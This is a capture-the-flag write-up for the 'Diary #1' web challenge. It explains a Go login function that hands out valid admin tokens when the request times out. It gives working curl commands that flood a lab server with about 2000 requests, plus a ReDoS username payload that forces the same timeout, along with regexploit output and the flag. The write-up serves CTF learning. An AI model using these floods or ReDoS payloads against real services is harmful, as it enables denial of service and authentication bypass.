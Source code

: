 # Diary #1

The challenge is a variant of `Diary`. It only differs by patching the SQL injection.

This version runs on the `23689`. 

For more info, see [Diary](../Web_Diary/WRITEUP.md).

# Timeout

The user validation is not handling timouts very well. On timeout it still returns the userID, which would generate a valid token for the admin user.


```go
func validateUser(creds Credentials) (int, error) {
	var userID int
    //redacted
	ctx, cancel := context.WithTimeout(context.Background(), 5*time.Second)
	defer cancel()
    //redacted
	go func() {
			usernameRegex := regexp2.MustCompile(`^\s*([a-zA-Z0-9]+)*\s*$`, 0)
			if m, _ := usernameRegex.FindStringMatch(creds.Username); m != nil {
				gps := m.Groups()
				username = gps[1].Captures[0].String()
			}
  			//redacted
	}()

	select {
	case err := <-queryResult:
		if err != nil {
			return -1, errors.New("no user found")
		}
	case <-ctx.Done():
		return userID, err
	}
	return userID, nil
}

```

As an easy solution, flooding the server for a few seconds would cause the server to timeout and handle out tokens. 

After local testing, ~2000 requests should be enough to stall the server a little, but won't overload it for more than a few seconds.

```bash
for i in {1..1000}; do (curl -s 'http://10.10.1.10:23689/login' -X POST --data-raw '{"username":"admin","password":"a"}' | grep token) & done
for i in {1..1000}; do (curl -s 'http://10.10.1.10:23689/register' -X POST --data-raw '{"username":"admin","password":"a"}' > /dev/null) & done
```

![](screenshots/1.png)

Using any of the tokens would log in as the admin.

![](screenshots/2.png)

With access to the flag.

![](screenshots/3.png)

# Flag

`CQ24{4r3_They_ReallY_SaFe_d0E?}`

# Regex

The regex library is not the default. 

```
Regexp2 is a feature-rich RegExp engine for Go. It doesn't have constant time guarantees like the built-in regexp package, but it allows backtracking and is compatible with Perl5 and .NET.
```

Abusing the regex pattern `^\s*([a-zA-Z0-9]+)*\s*$` for catastrophic backtracking can also timeout the server.

There is an offline tool that can be installed via pip to check and exploit regexes: [regexploit](https://pypi.org/project/regexploit/). Alternatively <https://devina.io/redos-checker> can be also used as an online tool.

```bash

echo '^\s*([a-zA-Z0-9]+)*\s*$' | regexploit
```

```
Redos(starriness=11, prefix_sequence=SEQ{ [SPACE]{0+} }, redos_sequence=SEQ{ [[a-z],[0-9],[A-Z]]{1+}{0+} [SPACE]{0+} $[20,a0,[a-z],[0-9],[09-0d],[A-Z]] }, repeated_character=[[a-z],[0-9],[A-Z]], killer=[^20,a0,[a-z],[0-9],[09-0d],[A-Z]])
Worst-case complexity: 11 * * * * * * * * * * (exponential)
Repeated character: [[a-z],[0-9],[A-Z]]
Final character to cause backtracking: [^20,a0,[a-z],[0-9],[09-0d],[A-Z]]
Example: '0' * 3456 + '!'
```

There is a check that the regex length should be less than or equal 32, so a minor tweak would be required, but it is still running long enough to trigger a timeout.

```bash
curl -s 'http://10.10.1.10:23689/login' -X POST --data-raw '{"username":"0000000000000000000000000000000!","password":"a"}'
```

This handles out a token the same way the flood does, but more cleanly.
